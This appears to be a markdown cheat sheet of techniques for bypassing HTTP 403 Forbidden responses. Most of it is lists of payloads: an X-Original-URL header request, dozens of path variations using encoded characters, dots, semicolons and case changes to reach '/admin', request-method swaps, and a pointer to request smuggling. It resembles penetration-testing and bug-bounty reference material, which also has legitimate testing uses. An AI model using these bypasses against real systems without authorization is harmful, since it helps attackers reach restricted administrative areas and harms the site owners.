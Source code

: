 ### Bypass 403 (Forbidden) Techniques

#### 1. Using Headers
- **X-Original-URL Header**:
  - Request:
    ```
    GET /anything HTTP/1.1
    Host: target.com
    X-Original-URL: /admin
    ```

#### 2. URL Manipulation
- **Appending %2e**:
  - Original URL: `http://target.com/admin` → 403
  - Bypass URL: `http://target.com/%2e/admin` → 200

- **Adding Dots, Slashes, and Semicolons**:
  - `http://target.com/secret/.` → 200
  - `http://target.com//secret//` → 200
  - `http://target.com/./secret/.` → 200
  - `http://target.com/:/secret` → 200
  - `http://target.com/.i/secret` → 200
  - `http://target.com//;//secret` → 200

#### 3. Changing Request Method
- Change the request method from **GET** to **TRACE** (or other methods like POST, HEAD, OPTIONS).

#### 4. URL Variations
- `url.com/admin/?`
- `url.com//admin//`
- `url.com///admin///`
- `url.com/./admin/.`
- `url.com/admin?`
- `url.com/admin%20?`
- `url.com/admin%20/`
- `url.com/admin/..`
- `url.com/admin/../`
- `url.com/admin/.`
- `url.com/admin/.%20/`
- `url.com/admin/*`
- `url.com/admin//*`
- `url.com/admin/%2f/`
- `url.com/admin/%20`
- `url.com/admin/%20/`
- `url.com/admin/%09`
- `url.com/admin/%09/`
- `url.com/admin/%0a`
- `url.com/admin/%0a/`
- `url.com/admin/%0d`
- `url.com/admin/%0d/`
- `url.com/admin/%25`
- `url.com/admin/%25/`
- `url.com/admin/%23`
- `url.com/admin/%23/`
- `url.com/admin/%26`
- `url.com/admin/%3f/`
- `url.com/admin/#`
- `url.com/admin/#/`
- `url.com/admin/#/.`
- `url.com/./admin`
- `url.com/./admin/`

#### 5. Advanced URL Manipulation
- `url.com/admin/.json`
- `url.com/admin;`
- `url.com/admin/#/.`
- `url.com/./admin`
- `url.com/..;/admin/`
- `url.com/.;/admin/`
- `url.com/;/admin`
- `url.com//;//admin`
- `url.com/%2e/admin`
- `url.com/admin/..;/`
- `url.com/admin.json`
- `url.com/admin%0a`
- `url.com/admin.css`
- `url.com/admin.html`
- `url.com/admin?id=1`
- `url.com/admin~`
- `url.com/admin/é`
- `url.com/admin/-`
- `url.com/admin/..%3B/`
- `url.com/admin/;%2f..%2F..%2F`
- `url.com/ADMIN`
- `url.com/admin/..\\;/`
- `url.com/ADM+IN/`
- `url.com/admin/*/`
- `url.com/admin\\/\\/`
- `url.com/*/admin`
- `url.com/*/admin/`
- `url.com/ADM+IN`

#### 6. Slash Manipulation
- Try using variations like `/`, `//`, `\\`, `/\\`, etc.

#### 7. Request Headers
- Try using all possible request methods (POST, HEAD, OPTIONS, TRACE, etc.).

#### 8. References
- Exploiting HTTP Parsers Inconsistencies: [https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) (Nginx ACL)
---

#### 9. try HTTP request smuggling
![image](https://github.com/user-attachments/assets/d24edcee-5a1e-4ba3-99e2-33076e37dd61)



### Tips
- Always test different URL encodings and special characters.
- Experiment with various HTTP headers like `X-Original-URL`, `X-Rewrite-URL`, etc.
- Use tools like Burp Suite or ZAP to automate testing of different request methods and headers.


